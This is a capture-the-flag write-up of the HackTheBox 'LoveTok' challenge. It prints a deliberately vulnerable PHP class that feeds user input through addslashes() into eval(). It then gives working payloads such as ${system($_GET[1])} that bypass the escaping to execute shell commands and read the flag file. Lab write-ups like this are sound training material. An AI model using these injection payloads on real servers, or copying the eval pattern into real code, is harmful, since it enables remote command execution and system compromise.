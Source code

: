 # HackTheBox LoveTok
When booting up the challenge, we find the following homepage:
![LoveTok](/web/HTB_LoveTok/images/lovetok.PNG)
This page features a countdown to a random date, and a button to roll a new random date. Clicking the button sets a new date with a GET request with the parameter `format=r`. This is our first hint that we can somehow influence a `date()` command. In this challenge we are also provided the source code. There is not much interesting code, except the `TimeModel` class which uses `eval()` to execute `date()` based on the provided `format` parameter:
```
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```
Upon seeing this code, my alarm bells for command injection immediately go off. I immediately tried some common command injection techniques, but this did not immediately work. Taking a second look at the code explains why; `addslashes()` is used to escape the input string. We can take a look at the ![addslashes() docs](https://www.php.net/manual/en/function.addslashes.php), which reveals this is an escaping function. However, it also reveals that it is not safe for preventing i.e. SQL injection. 

At this point, it is clear that the goal of the challenge is to bypass the `addslashes()` and achieve command injection. Googling for "php addslashes exploit" results in some pages on SQL injection, and a page about ![addslashes() in eval safety](https://security.stackexchange.com/questions/263114/php-is-addslashes-in-eval-really-that-unsafe). This post also links to an article titled "![Using complex variables to bypass the addlashes function to achieve RCE](https://www.programmersought.com/article/30723400042/)". These posts explain that the characters $, {, }, ( and ) are not escaped, which allows injecting of inline commands. This means you can still use commands inside of the string context with a payload such as:
```
${phpinfo()}
```
However, the problem still persists when we want to execute commands such as (the `+` is a space as this is passed as GET parameter in the URL):
```
${system("ls+../")}
```
The above payload will not work, as the double quotes are still escaped by `addslashes()`. Some commands such as `id` can still be executed by leaving out the quotes, but commands containing spaces do not work without the double quotes. Luckily, the first post we found about ![addslashes() in eval safety](https://security.stackexchange.com/questions/263114/php-is-addslashes-in-eval-really-that-unsafe) also highlights a way to bypass this issue. As payload we can use `${eval($_GET[1])}`, which will fetch the command from the GET parameter `1`. This can be used to execute commands as follows:
```
/?format=${eval($_GET[1])}&1=system("id");
```
This now successfully prints the result of `id` on the page!
![LoveTokExp](/web/HTB_LoveTok/images/lovetokexploited.PNG)
The payload can be cleaned up further, as the nesting of `eval()` and `system()` is not needed: 
```
/?format=${system($_GET[1])}&1=id
```
This can now be used to fetch the flag from the randomly generated flag name as follows:
```
/?format=${system($_GET[1])}&1=cat+/flag*
```

